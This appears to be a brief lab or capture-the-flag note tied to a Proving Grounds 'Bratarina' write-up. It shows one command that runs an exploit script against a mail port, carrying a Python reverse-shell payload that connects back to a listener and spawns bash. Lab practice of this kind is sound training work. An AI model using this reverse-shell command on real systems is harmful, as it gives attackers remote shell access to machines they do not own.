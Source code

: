 ### "  vs '
```bash
python3 47984.py 192.168.91.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.91\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

### writeup
https://dylanrholloway.com/proving-grounds-bratarina-write-up/
